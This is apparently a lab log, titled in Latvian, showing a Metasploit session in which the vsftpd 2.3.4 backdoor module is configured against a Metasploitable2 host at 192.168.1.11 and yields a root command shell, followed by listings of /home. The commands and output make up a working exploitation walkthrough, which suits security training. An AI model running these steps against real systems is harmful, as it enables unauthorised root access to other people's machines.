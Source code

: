 **Metasploitable-framework rezultātu izvade**
=============================================

**msf6 > use exploit/unix/ftp/vsftpd_234_backdoor**
```
[*] No payload configured, defaulting to cmd/unix/interact

```
**msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options**
```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```
**msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set Rhost 192.168.1.11**
```
Rhost => 192.168.1.11
```
**msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options**
```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.11     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) >

```
**msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit**
```
[*] 192.168.1.11:21 - The port used by the backdoor bind listener is already open
[+] 192.168.1.11:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.175:39391 -> 192.168.1.11:6200) at 2025-05-22 21:16:04 +0300
```
**ls /home**
```
ftp
msfadmin
service
user
```
**ls /home** (no docker konteinera, kurā ir uzstadīts metasploitable2)
```
root@b2bd6545425e:/# ls /home
ftp  msfadmin  service  user

```


